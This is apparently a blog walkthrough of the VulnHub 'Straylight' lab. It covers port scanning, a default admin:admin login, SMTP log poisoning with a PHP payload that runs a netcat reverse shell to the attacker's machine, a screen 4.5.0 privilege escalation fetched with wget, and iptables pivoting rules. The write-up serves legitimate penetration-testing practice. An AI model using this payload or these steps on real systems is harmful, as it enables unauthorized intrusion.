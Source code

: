 ```yaml
---
categories: [vulnhub]
tags: [vulnhub,walkthrough,pentest]
---
```

# Straylight



## Description ⤵️

>💡 A new OSCP style lab involving 2 vulnerable machines, themed after the cyberpunk classic Neuromancer - a must read for any cyber-security enthusiast. This lab makes use of pivoting and post exploitation, which I've found other OSCP prep labs seem to lack. The goal is the get root on both machines. All you need is default Kali Linux.
<br><br>
I'd rate this as Intermediate. No buffer overflows or exploit development - any necessary password cracking can be done with small wordlists. It's much more related to an OSCP box vs a CTF. I've tested it quite a bit, but if you see any issues or need a nudge PM me here.
<br><br>
Virtual Box Lab setup instructions are included in the zip download, but here's a quick brief:
<br><br>
Straylight → simulates a public facing server with 2 NICS. Cap this first, then pivot to the final machine.
<br><br>
Neuromancer → is within a non-public network with 1 NIC. Your Kali box should ONLY be on the same virtual network as Straylight.
<br><br>
This works better with VirtualBox rather than VMware
{: .prompt-info }

Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Straylight/Untitled.png)

```bash
This machine have 2 Network Adaptor therefore showing to IP but both are same :

I will be using 192.168.56.102
```

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%201.png)

```bash
Open Ports >
25			SMTP
80			HTTP			
3000		Apache		Hadoop
```

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%202.png)

Let’s check different ports too →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%203.png)

Lets try admin : admin and I got In →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%204.png)

Lets check this option →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%205.png)

Now access them and found this :

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%206.png)

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%207.png)

After digging deeper into `/turning-bolo/` directory I got this →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%208.png)

Now I think it is indicating to us for looking for log files :

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%209.png)

I have also got a port for SMTP for mail purpose so lets us this to execute our payload for reverse shell access or command shell →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2010.png)

Now After Accesing the SMTP service I am getting this :>

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2011.png)

This image is of source code of the previous picture .

Now it’s time to execute our reverse shell code →

```
Command : MAIL FROM:<?php system('nc -e /bin/bash 192.168.56.103 4444'); ?>
```

In response to that in netcat I recevied this →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2012.png)

⤵️

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2013.png)

Now when I got a Local Privilege Escalation so lets find for SUIDs and GUIDs files →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2014.png)

Lets search for an exploit for `screen 4.5.0` as it is a common exploit →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2015.png)

Now I transfered this exploit through wget and simply executed it And I got this :

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2016.png)

Now lets find the flag →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2017.png)

also I got this →

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2018.png)

---

This is not an end !

I also got an another machine connect with this machine so lets use pivoting method to breach it too →

Now ⤵️

It time to make tunnel from straylight to Neuromancer and also to the Attacker machine So :>

```
Command : iptables -t nat -A POSTROUTING -o enp0s3 -j SNAT --to-source 192.168.56.102
```

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2019.png)

```
command : iptables -t nat -A PREROUTING -i enp0s3 -p tcp --dport 3333 -j DNAT --to-destination 192.158.56.103
```

![Untitled](/Vulnhub-Files/img/Straylight/Untitled%2020.png)

Now I have a connection between these 2 machines >

Now lets go to `Neuromancer` Machine →

[Neuromancer](2023-06-11-Neuromancer.md)